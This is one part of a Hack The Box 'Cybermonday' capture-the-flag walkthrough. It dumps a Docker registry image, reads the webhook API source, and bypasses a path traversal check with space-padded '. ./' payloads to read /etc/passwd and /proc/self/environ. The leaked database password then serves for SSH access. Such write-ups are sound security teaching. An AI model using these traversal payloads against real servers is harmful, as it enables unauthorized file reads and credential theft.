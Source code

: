 # HTB Cybermonday - Reading the Source

[Initial Enumeration](htb-cybermonday-1-initial-enumeration.md)
[Webhook API Admin Access](htb-cybermonday-2-webhook-api-admin.md)
[Obtaining More Info](htb-cybermonday-3-obtaining-more-info.md)
[Gaining a Foothold](htb-cybermonday-4-gaining-a-foothold.md)
[Where to Now?](htb-cybermonday-5-where-to-now.md)
[**Reading the Source**](htb-cybermonday-6-reading-the-source.md)
[Composing Root Access](htb-cybermonday-7-composing-root-access.md)

Now that we have access to an internal Docker registry, let's use `curl` to see if we can get a list of images the registry contains.
```shell
$ curl http://<registry ip>:5000/v2/_catalog

{"repositories":["cybermonday_api"]}
```

It looks like this registry holds the image for the webhook API. We can download this image to look through the source and see if we can spot any vulnerabilities to exploit. While we could configure our local Docker version to use the `SOCKS` proxy and download the image that way, since we're not looking to actually run the container it's probably easier to download [DockerRegistryGrabber](https://github.com/Syzik/DockerRegistryGrabber) and get the image that way.
```shell
$ proxychains python3 DockerGraber.py http://<registry ip> --dump cybermonday_api

[+] BlobSum found 27
[+] Dumping cybermonday_api
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d6...
```

Once we have all the blobs we can extract them all with:
```shell
$ for f in *.tar.gz; do tar xf "$f"; done
```

And now we have the filesystem for the `cybermonday_api` container. The source for the webhook API can be found in `/var/www/html`. Looking through this source code, we see there's an undocumented endpoint for `createLogFile` type webhooks that lets us list and read the logs that are created. It also requires a different type of authentication to the token we've been using. Let's run the `list` action on the original webhook we found in the changelog.
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "list"}'

{"status":"success","message":[...]}
```

If you made any requests to create a log earlier, you'll see them listed here. Next we want to test the read function.
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": "test-<timestamp>.log"}'

{"status":"success","message":"test"}
```

Okay so we get the basic idea, you create logs with the webhook then read them here. The read log function checks for path traversal with a `regex` pattern and makes sure the file has `log` in the name. But if you look closer you might spot a problem. Theres a string substitution made _after_ the `regex` check.
```php
preg_match("/\.\.\//", $logName)
str_replace(' ', '', $logName)
```

Which means we can still abuse this endpoint for path traversal. We need to also be sure to include `log` in the name, but for that we can just re-enter the `/logs` directory and back out again. So a request to fetch `/etc/passwd` would look like this:
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./etc/passwd"}'

{"status":"success","message":"root:x:0:0:root:\/root:\/bi..."}
```

Now we have path traversal, but what can we do with it? The code uses `file_get_contents` rather than `include` so we can't inject any code. We could try and see if another `.env` file exists.
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./var/www/html/.env"}'

{"status":"error","message":"This log does not exist"}
```

No luck. But there is one file we can request the might be useful. Linux has a number of virtual directories in `/proc` that let you get the state of different processes. For the PHP server itself we can use `/proc/self`, and in particular `/proc/self/environ`.
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./proc/self/environ"}'

{"status":"success","message":"HOSTNAME=e1862f4e1242\u0000PHP..."}
```

This gives us the environment variables set for the PHP server process. If we look carefully, we see one variable that might be of use.
```
DBPASS=<password>
```

It's pretty buried in there and can be easy to miss with the JSON formatting, but we can see a password in the environment that might just be what we're looking for. If we try to `ssh` to the host using the username we found earlier and this password:
```shell
$ ssh john@<host ip>
john@<host ip>'s password:

john@cybermonday:~$ 
```

Success. Grab the flag in `user.txt` and then let's continue on to root.

Next: [Composing Root Access](htb-cybermonday-7-composing-root-access.md)